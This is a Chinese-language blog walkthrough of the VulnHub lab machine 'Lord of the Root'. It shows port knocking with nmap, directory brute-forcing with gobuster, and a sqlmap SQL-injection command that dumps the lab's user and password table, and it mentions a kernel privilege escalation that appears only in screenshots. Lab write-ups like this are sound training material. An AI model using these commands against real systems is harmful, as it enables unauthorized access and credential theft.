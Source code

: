 ```yaml
---
layout: post
title:  "vulnhub >_ Lord of the root"
description: walkthrough
category: vulnhub
---
```

# Lord of the root

![image-20200618034235354]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618034235354.png)

![image-20200618034302713]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618034302713.png)

查看了漏洞利用文件，需要拥有凭证。

登录ssh看看

![image-20200618034641444]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618034641444.png)

需要敲端口

敲端口相关阅读

> port-knock技巧
>
> https://www.endpoint.com/blog/2009/11/16/port-knocking-with-knockd
>
>  有一种绕过它的方法。通过在一组预先指定的关闭端口上生成连接尝试，打开端口的方法是打开防火墙上的端口。 一旦收到正确的连接尝试序列，防火墙将打开以前关闭的端口。
>
> https://www.exploit-db.com/exploits/28718
>
> https://blog.rapid7.com/2017/10/04/how-to-secure-ssh-server-using-port-knocking-on-ubuntu-linux/ 

```bash
nmap -Pn --host-timeout 100 --max-retries 0 -p 1 10.10.10.133
nmap -Pn --host-timeout 100 --max-retries 0 -p 2 10.10.10.133
nmap -Pn --host-timeout 100 --max-retries 0 -p 3 10.10.10.133
```



![image-20200618035109052]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035109052.png)

1337开了

![image-20200618035346345]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035346345.png)

![image-20200618035428938]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035428938.png)

![image-20200618035832036]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035832036.png)

又是开局一张图

![image-20200618035654402]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035654402.png)

这个本地ip可能需要留意一下

打目录

```bash
gobuster -u http://10.10.10.133:1337/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt dir -s '200,204,301,302,307,401,403' -k -e -l -x php,txt,apsx,asp,html -t 10
```

![image-20200618041448264]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618041448264.png)

![image-20200618041514208]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618041514208.png)

```bash
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```

![image-20200618041740499]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618041740499.png)

```bash
/978345210/index.php
```

![image-20200618041832820]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618041832820.png)

抓包存储为login.txt

```bash
sqlmap -r login.txt --batch --dump
```

![image-20200618213029466]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618213029466.png)

```bash
+------+----------+------------------+
| id   | username | password         |
+------+----------+------------------+
| 1    | frodo    | iwilltakethering |
| 2    | smeagol  | MyPreciousR00t   |
| 3    | aragorn  | AndMySword       |
| 4    | legolas  | AndMyBow         |
| 5    | gimli    | AndMyAxe         |
+------+----------+------------------+
```







![image-20200618210446764]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618210446764.png)

其他常规枚举并没有发现什么有用的，尝试内核提权

![image-20200618212045518]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618212045518.png)



![image-20200618213557693]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618213557693.png)

![image-20200618213732516]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618213732516.png)